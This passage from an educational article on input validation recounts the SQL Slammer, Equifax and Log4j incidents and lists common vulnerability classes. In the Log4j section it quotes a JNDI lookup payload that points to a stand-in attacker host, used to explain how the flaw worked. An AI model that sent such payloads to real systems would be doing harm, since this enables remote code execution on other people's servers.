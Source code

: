 Key vulnerability: Programs didn't validate input length before copying data into fixed-size buffers.

**The SQL Slammer Worm (2003) - 15 Minutes to Global Chaos**

This worm exploited a buffer overflow in Microsoft SQL Server. It sent a single 376-byte UDP packet that caused the server to execute malicious code. The worm spread to 75,000 systems in just 15 minutes, causing internet slowdowns worldwide and shutting down critical infrastructure.

Key vulnerability: SQL Server didn't validate the length of incoming network packets.

**The Equifax Data Breach (2017) - 147 Million Records Stolen**

Attackers exploited a vulnerability in Apache Struts framework that occurred when the framework parsed file upload requests. They sent specially crafted HTTP headers that caused the server to execute commands. The breach exposed Social Security numbers, birth dates, and addresses of nearly half the US population.

Key vulnerability: The framework trusted user-controlled data in HTTP headers without proper validation.

**The Log4j Vulnerability (2021) - The Internet's Worst Week**

A Java logging library contained a feature that would execute code found in log messages. Attackers sent messages like `${jndi:ldap://evil.com/exploit}` to vulnerable applications. When these messages were logged, the library would fetch and execute code from the attacker's server.

Key vulnerability: The logging system processed user input without considering security implications.

**Common Themes in These Disasters:**

1. **Buffer overflows**: Not validating input length
2. **Code injection**: Not sanitizing special characters  
3. **Deserialization**: Not validating object structure
4. **Command injection**: Not escaping shell commands
5. **Path traversal**: Not validating file paths

Every single one could have been prevented by proper input validation.

### The Fundamental Challenge: Signal vs. Noise

Input validation is essentially a classification problem: is this input legitimate or malicious? But it's complicated by several factors:

**1. The Creativity of Attackers**
Attackers have unlimited time and creativity. They'll try every possible variation, encoding, and edge case to bypass your validation.

**2. The Complexity of Modern Data**
Modern applications handle JSON, XML, binary protocols, compressed data, encrypted payloads, and more. Each format introduces new attack vectors.

**3. The Compatibility Problem**
Too strict validation breaks legitimate use cases. Too lenient validation allows attacks through.

**4. The Performance Trade-off**
Comprehensive validation is expensive. In high-performance systems, validation can become a bottleneck.
